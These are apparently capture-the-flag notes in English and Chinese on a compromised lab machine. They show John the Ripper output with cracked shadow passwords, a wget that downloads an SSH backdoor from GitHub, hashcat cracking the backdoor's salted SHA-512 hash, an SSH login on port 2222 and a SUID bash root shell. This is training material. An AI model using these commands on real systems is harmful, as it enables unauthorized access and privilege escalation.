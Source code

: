 				secuirty3        (paradox)  
			=> sudo john --show shadow
				paradox:secuirty3:18464:0:99999:7:::
				szymex:abcd123:18464:0:99999:7:::
				bee:secret12:18464:0:99999:7:::
				muirland:1qaz2wsx:18464:0:99999:7:::

		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~		
		--> 分析 backdoor	
			--> wget https://github.com/NinjaJc01/ssh-backdoor/raw/master/backdoor
			--> ./ -h
			 標誌：
			     --version 顯示程式版本字串。
			    -h --help 顯示可用標誌、子指令和位置值參數的協助。
			    -p --port 用於偵聽 SSH 的本機連接埠（預設值：2222）
			    -i --interface 要偵聽的介面的 IP 位址（預設值：0.0.0.0）
			    -k --key SSH 伺服器私鑰的路徑（預設值：id_rsa）
			    -f --fingerprint SSH 指紋，不含 SSH-2.0- 前綴（預設值：OpenSSH_8.2p1 Debian-4）
			    -a --hash 後閘哈希值（預設值： 01fc2170e3)		
			    
			--> var hash string = 
			--> https://raw.githubusercontent.com/NinjaJc01/ssh-backdoor/master/main.go
			--> ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> Hashcat
			--> hash := sha512.Sum512([]byte(password + salt))
			--> hash.txt => 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05

			=> hashcat -h | grep SHA512
				=> 1710 | sha512($pass.$salt) | Raw Hash salted and/or iterated
				
			=> hashcat -m 1710 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -O
				-m 代表哈希的類型
				1710代表 sha512 哈希加鹽
				-a 0代表直接攻擊模式
				-O優化標誌
				--> :november16
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> 駭客反擊
		--> ssh james@10.10.17.3 -p 2222 -oHostKeyAlgorithms=+ssh-rsa
			=> november16
		--> ./.suid_bash -p
			=> /bin/bash -p can be root !













